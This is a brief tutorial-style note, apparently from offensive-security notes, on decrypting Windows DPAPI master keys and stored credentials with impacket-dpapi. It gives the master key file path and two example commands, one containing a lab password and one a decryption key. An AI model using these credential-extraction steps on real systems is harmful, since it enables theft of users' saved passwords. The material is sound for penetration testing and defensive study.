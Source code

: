 # Impacket dpapi

## Overview

## Usage

To decrypt the dpapi credential we need two file: The master key located on C:\Users\<username>\AppData\Roaming\Microsoft\Protect\<SID>\
 and encrypted data that can be found in Vault files, rdp files, browser data, windows credential manager,etc.


First we decrypt the master key:

```shell
impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password NightT1meP1dg3on14
```

This will give us the decrypted master key, that we can now use on the credential file:

```shell
impacket-dpapi credential -file 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
```